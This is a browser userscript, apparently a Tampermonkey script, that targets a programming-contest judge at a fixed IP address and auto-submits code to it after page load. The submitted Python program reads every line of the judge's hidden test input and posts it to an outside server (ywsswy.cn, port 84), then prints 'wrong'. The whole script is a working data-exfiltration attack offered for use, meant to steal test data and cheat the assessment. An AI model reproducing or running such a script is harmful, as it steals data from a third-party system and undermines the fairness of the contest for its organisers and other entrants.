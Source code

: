 // ==UserScript==
// @name         CCF
// @namespace    http://tampermonkey.net/
// @version      0.1
// @description  try to take over the world!
// @author       You
// @match        http://118.190.20.162/view.page?*
// @require      http://code.jquery.com/jquery-1.11.0.min.js
// @grant        none
// ==/UserScript==
(function() {
    'use strict';
    // Your code here...
    function ywsDelay(){
        var s1 = '2';
        s1 = "import urllib.request\nimport json\ndata_list = []\nwhile True:\n  try:\n    temp = input()\n    data_list.append(temp)\n  except EOFError:\n    break\ndata = json.dumps(data_list)\ndata = 'input={}'.format(data)\ndata = data.encode('utf-8')\nurl = 'http://ywsswy.cn:84'\nreq = urllib.request.Request(url) \nreq.add_header('Content-Type', 'application/x-www-form-urlencoded;charset=utf-8')\nres = urllib.request.urlopen(req, data).read()\nprint('wrong')";
        $('#ucode').val(s1);
        $('#sure_pythonstd').prop('checked',true);
        $('#sure_extra').prop('checked',true);
        $('.orangebtn').eq(1).trigger("click");
    }
    $(document).ready(function(){
        setTimeout(ywsDelay,850);
    })
})();
